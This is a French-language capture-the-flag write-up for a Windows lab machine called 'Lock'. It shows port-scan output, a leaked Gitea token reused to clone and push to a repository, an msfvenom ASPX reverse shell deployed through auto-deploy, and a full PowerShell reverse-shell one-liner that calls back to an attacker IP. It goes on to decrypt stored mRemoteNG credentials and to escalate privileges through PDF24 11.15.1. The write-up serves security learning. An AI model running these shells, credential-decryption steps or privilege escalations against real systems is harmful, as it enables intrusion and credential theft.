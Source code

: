 ```yaml
---
title: Lock
description: WU Lock
categories: [Writeup]
tags: [writeup]
template: doc
sidebar:
  order: 3
  badge:
    text: 'easy'
    variant: success
---
```



<Image src={banner} alt="banner" format="avif" quality={"mid"}/>

# LOCK

| OS | Difficulty | Target |
|----|----|----|
| Windows | <span style="color:green">**EASY**</span> | 10.10.92.237 |

# 🔭 Enumeration

### PortScan

```
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
```

Scan approfondit des ports trouvés:

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Lock - Index
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=87dfb3e2af70e006; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=40IoXd4T_GFBgYejGbA9it2Tu-g6MTcyNjM0OTU4OTY2NjgxMjUwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 14 Sep 2024 21:33:09 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi8vbG9jYWxob3N0OjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjU
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=690ad1cf074d552c; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=IlVtCJ-F-vcFbXBL_eRGbH0Nb9Y6MTcyNjM0OTU5NTA2NDE1OTgwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 14 Sep 2024 21:33:15 GMT
|_    Content-Length: 0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2024-09-13T21:19:21
|_Not valid after:  2025-03-15T21:19:21
|_ssl-date: 2024-09-14T21:35:12+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2024-09-14T21:34:32+00:00
```

| PORT | PROTOCOL |
|----|----|
| 80 | HTTP |
| 445 | SMB |
| 3000 | GITEA |
| 3389 | RDP |

# 👣 Foothold

Un dépôt `Gitea` sur le port 3000. Nous donne un nom d'user `ellen.freeman`. Il y a 2 commits et un script.
Le commit initial nous permet de récupérer le Token Gitea:

```py
PERSONAL_ACCESS_TOKEN = '43ce39bb0bd6bc489284f2905f033ca467a6362f' 
```

En jetant un coup d'oeil au script,  on peut voir qu'il énumère l'ensemble des dépôts présents sur Gitea pour un utilisateur donné.

En utilisant le script, nous découvrons un dépôt `/website`

```sh
python3 repos.py http://lock.vl:3000
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```

Téléchargeons le git:

```sh
git clone http://ellen.freeman:43ce39bb0bd6bc489284f2905f033ca467a6362f@lock.vl:3000/ellen.freeman/website.git
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 2.58 MiB/s, done.
Resolving deltas: 100% (35/35), done.
```

En lisant le fichier `README.md` présent, il est indiqué que chaque modification, apportée au dépôt, est déployée automatiquement.

```sh
cat readme.md    
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver# 
```

Création d'un reverse shell avec un fichier `.aspx` puis push vers le dépôt ou en utilisant [ce script](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx)

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.3.147 LPORT=4444 -f aspx -o web.aspx
git config --global user.name ellen.freeman
git config --global user.email ellen.freeman@lock.vl
git add web.aspx
git commit -m "Add web file"
git push
```

Dans un autre terminal j'écoute sur le port 4444, puis je me rends sur le lien du fichier en espérant obtenir un reverse shell.

```sh
nc -lvnp 4444
```

Sur le lien de la page, je saisis la commande:

```cmd
/c powershell.exe -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.3.147',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

On obtient notre reverse shell, en fouillant dans les répertoires de `ellen.freeman` on trouve un fichier `config.xml`.

```powershell
PS C:\Users\ellen.freeman\Documents> cat config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

Le fichier `config.xml` est un fichier pour RemoteNG. J'utilise le script de ce [dépôt](https://github.com/gquere/mRemoteNG_password_decrypt) pour déchiffrer les informations présentes.

```sh wrap
python3 rng-decrypt.py config.xml   
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```

On obtient donc l'user `Gale.Dekarios` et son mot de passe.
Connectons-nous en RDP.

Le flag user est présent sur le Bureau.

# 🎯 Privilege Escalation

A partir de la session de Gale.Dekarios, nous pouvons voir que le logiciel PDF24 est présent. En regardant les détails du programme, la version est la 11.15.1 dont un exploit permet de PrivEsc.

Le lien ci-contre nous indique la [marche à suivre](https://packetstormsecurity.com/files/176206/PDF24-Creator-11.15.1-Local-Privilege-Escalation.html).

- Téléchargeons SetOpLock.exe sur la machine cible ([Github](https://github.com/googleprojectzero/symboliclink-testing-tools/releases/tag/v1.0))
- Saisissons la commande suivante dans un prompt cmd: `.\SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r`
- Un dossier `_Install`est présent à la racine de `C:` et possède l'installer msi requis pour monter en privilèges.
- Dans un autre terminal, lançons l'installation avec la commande suivante: `msiexec.exe /fa pdf24-creator-11.15.1-x64.msi`
- A la fin de l'installation un terminal s'ouvre, il suffit de cliquer droit sur la barre / Propriété et cliquer sur le lien `Legacy console mode link`
- Sélectionner Firefox, puis `CTRL+O`pour ouvrir `cmd.exe`à partir de Firefox. 
- Contrôler qui nous sommes avec la commande `whoami /all` 

Vous êtes administrateur, vous pouvez obtenir le flag `root.txt`dans le Desktop d'Administrator.